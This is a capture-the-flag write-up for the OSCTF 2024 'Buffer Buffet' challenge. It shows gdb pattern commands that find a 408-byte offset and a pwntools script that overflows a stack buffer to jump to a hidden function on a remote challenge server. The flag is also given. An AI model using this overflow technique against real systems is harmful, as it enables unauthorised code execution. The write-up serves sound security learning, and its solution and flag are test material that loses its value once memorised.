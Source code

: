 # Buffer Buffet
Solved by **zachwong_02**

Full writeup https://zach-wong.gitbook.io/easy-reads/osctf-2024-writeups/buffer-buffet-pwn

## Question
As an elite hacker invited to an exclusive digital banquet, you must navigate through the layers of a complex software system. Among the appetizers, main course, and dessert lies a hidden entry point that, when discovered, reveals a treasure trove of sensitive information.

## Solution
through `gdb-gef`
```
pattern create 500
pattern search baaaaaac
offset = 408
info functions: find the address of the secretFunction
```

```
from pwn import *

# Set up the connection
# context.log_level = 'debug'  # Set debug level to see communication
r = remote('34.125.199.248', 4056)  # Replace with your target IP and port

# binary = context.binary = ELF('./vuln')
# r = process(binary.path)

buffer = "A" * 408 

# Example interaction
r.recvuntil('Enter some text:')
r.sendline(buffer.encode()+ p64(0x00000000004011d6))

response = r.recvline()
response = r.recvline()
response = r.recvline()
response = r.recvline()
print("Response from server:", response.decode())

# Close the connection
r.close()
```
References:
* https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow
* https://book.hacktricks.xyz/binary-exploitation/rop-return-oriented-programing
### Flag
`OSCTF{buff3r_buff3t_w4s_e4sy!}`
